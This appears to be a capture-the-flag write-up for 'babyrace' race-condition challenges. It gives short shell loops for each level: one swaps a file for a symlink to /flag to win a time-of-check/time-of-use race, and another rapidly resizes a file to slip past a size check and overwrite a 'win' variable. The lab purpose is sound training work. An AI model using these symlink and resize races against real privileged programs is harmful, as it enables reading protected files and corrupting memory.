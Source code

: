 # Race Condition

## babyrace_level1.0

- Run a script that executes 3 commands repeatedly:

    ```shell
    touch my_file
    ln -sf /flag my_file
    rm my_file
    ```

## babyrace_level1.1

- There is no hint, try the same method, it works!

## babyrace_level2.0

- A race condition with a tighter timing window to read the flag. The script for level 1 still works!

## babyrace_level2.1

- Repeating the challenge manually is hard to get the flag, run another script that repeats the challenge automatically:
    ```shell
    #!/bin/bash

    # Usage: ./repeat_challenge.sh 2.1
    for i in {0..100000}
    do
        /challenge/babyrace_level$1 my_file | grep 'pwn'
    done
    ```

## babyrace_level3.0

- Corrupt memory by exploiting a race condition

    ```
    This challenge will verify that the file's path does not include "flag".
    This challenge will verify that the file is not a symlink.
    This challenge will verify that the file is not larger than 256 bytes.
    ```

- First, input a simple file, the hint is: `Value of "win" variable: 0`. The program limits the size of the input file to 256 bytes, I guess that with a larger file we can overwrite the value of `win` to non-zero

- Use a script to change the size of `my_file` repeatedly, and run the challenge for a few times

    ```shell
    #!/bin/bash

    touch my_file
    for i in {0..100000}
    do
        printf 'a%.0s' {1..900} > my_file
        printf '' > my_file
    done
    ```

## babyrace_level3.1

- Use the script in level 3.0
